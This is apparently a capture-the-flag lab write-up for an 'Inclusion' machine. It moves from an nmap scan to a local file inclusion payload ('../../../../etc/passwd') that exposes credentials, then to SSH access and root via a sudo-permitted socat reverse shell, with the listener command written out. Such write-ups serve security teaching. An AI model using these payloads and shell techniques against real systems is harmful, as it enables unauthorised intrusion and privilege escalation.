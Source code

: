 # Inclusion WriteUp

## Lean more about [local file inclusion](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) and [remote file inclusion](https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/).

+ **Starting with a nmap scan for open ports**
  
    ``nmap -sV -sC -sT 10.10.26.204``

+ **HTTP is open**
  ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 19:20 EET
    Nmap scan report for 10.10.183.94
    Host is up (0.080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
    |   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
    |_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
    80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
    |_http-title: My blog
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.62 seconds

  ```


+ **Let's check the website** 
  
    ![1]

+ **and click an article**
  
    ![2]

    ``?name=lfiattack``

    looks like a file inclusion (no way!)

+ **Let's check /etc/passwd**

    ``../../../../etc/passwd``

    We find a username and password!

    ![3]

+ **ssh into the machine**

    ![4]

    and read the flag

    ![5]

+ **let's check what we can run**

    ``sudo -l``

    if you don't know what ``-l`` does:

    ![6]

    ![7]

+ **Let's read more on what socat does**

    

  ```
    What is socat?

    socat stands for SOcket CAT. It is a utility for data transfer between two addresses.

    What makes socat so versatile is the fact that an address can represent a network socket, any file descriptor, a Unix domain datagram or stream socket, TCP and UDP (over both IPv4 and IPv6), SOCKS 4/4a over IPv4/IPv6, SCTP, PTY, datagram and stream sockets, named and unnamed pipes, raw IP sockets, OpenSSL, or on Linux even any arbitrary network device.

  ```
  [you can learn more about socat here](https://medium.com/@copyconstruct/socat-29453e9fc8a6)

  then straight to [gtfobins](https://gtfobins.github.io/gtfobins/socat/) we go to see how we can exploit socat

+ **getting the root flag**

    run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on my pc

    and 

    ![8]

    on the host.

    Checking back on our terminal,we get:

    ![9]

    All that's left is to get the flag

    ![10]

[1]:./Screenshot_20200314_183209.png
[2]:./Screenshot_20200314_183239.png
[3]:./Screenshot_20200314_183308.png
[4]:./Screenshot_20200314_183724.png
[5]:./Screenshot_20200314_183810.png
[6]:./Screenshot_20200314_190744.png
[7]:./Screenshot_20200314_190801.png
[8]:./Screenshot_20200314_191328.png
[9]:./Screenshot_20200314_191313.png
[10]:./Screenshot_20200314_191404.png